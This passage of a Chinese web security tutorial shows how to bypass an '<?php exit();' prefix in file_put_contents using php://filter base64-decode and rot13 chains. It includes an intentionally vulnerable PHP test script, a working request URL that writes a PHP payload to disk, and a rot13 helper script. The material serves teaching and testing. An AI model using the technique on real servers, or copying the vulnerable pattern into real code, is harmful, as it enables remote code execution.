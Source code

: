 在前面加一个a是因为前面的解码的原因，要凑4个字符来  
测试源码：

```php
<?php
$filename = $_GET['filename'];
$content = $_GET['content'];
file_put_contents($filename,"<?php exit();".$content);
?>
```

传参：  
[http://127.0.0.1/2.php?filename=php://filter/convert.base64-decode/resource=delete.php&amp;content=aPD9waHAgcGhwaW5mbygpOw](http://127.0.0.1/2.php?filename=php://filter/convert.base64-decode/resource=delete.php&content=aPD9waHAgcGhwaW5mbygpOw)==  
可以发现

![filterchain1.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-67aac42567145b7d1bc92a73c80fe32c0c0bfb20.png)  
写入成功，如果不补齐的话就会乱码就没办法解析了  
补齐之前为31个字符，补后就是32个刚好是4的倍数，所以可以解析

### rot13

这里我先附上转化的脚本

```python
# time : 2024/1/12
# author : DELETE
import string
result = []
upperCase = string.ascii_uppercase
lowerCase= string.ascii_lowercase
upperDict={}
lowerDict={}
print("welcome to decode rot-13!\n")
inputStr=input("please input what you want to decode\n")
while True:
    print(f"please comfirm {inputStr} is what you want to input if yes input y if not input n")
    flag=input("请确认")
    if(flag=='y') or (flag =='Y'):
        break
    if(flag=='n') or (flag=='N'):
        inputStr=input("please input what string you want to encode or decode!")
    else:
        print("comfir way is illegal")
        break
for i in range(0,len(upperCase)):
    if i < 13:
        upperDict[upperCase[i]]=upperCase[i+13]
    else:
        upperDict[upperCase[i]]=upperCase[i-13]
for i in range(0,len(lowerCase)):
    if i < 13:
        lowerDict[lowerCase[i]]=lowerCase[i+13]
    else:
        lowerDict[lowerCase[i]]=lowerCase[i-13]
for ch in inputStr:
    if ch in lowerCase:
        result.append(lowerDict[ch])
    elif ch in upperDict:
        result.append(upperDict[ch])
result="".join(result)
print(f"final decode result is {result}")

```
